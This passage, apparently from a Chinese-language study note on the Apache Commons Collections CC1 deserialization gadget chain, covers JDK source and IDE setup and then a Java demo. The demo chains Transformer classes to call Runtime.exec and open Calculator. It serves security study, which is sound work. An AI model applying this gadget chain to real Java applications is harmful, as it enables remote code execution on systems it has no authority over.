 因为我们打开源码，很多地方的文件是 .class 文件，是已经编译完了的文件，都是反编译代码，我们很难读懂，所以需要把它转换为 .java 文件。

去这里(https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4)左侧的zip下载源码，解压src.zip，里面的share/sun包源码拷贝到本机jdk的src目录下



5.然后再IDEA的Project Structure中的下面的SDKs加上上面jdk的目录

就可以正常调试了





maven的源码，在右上角download source

### 核心demo

```java
package org.example2;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CCC1 {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{ new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),

        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }
}

```





#### TransformedMap
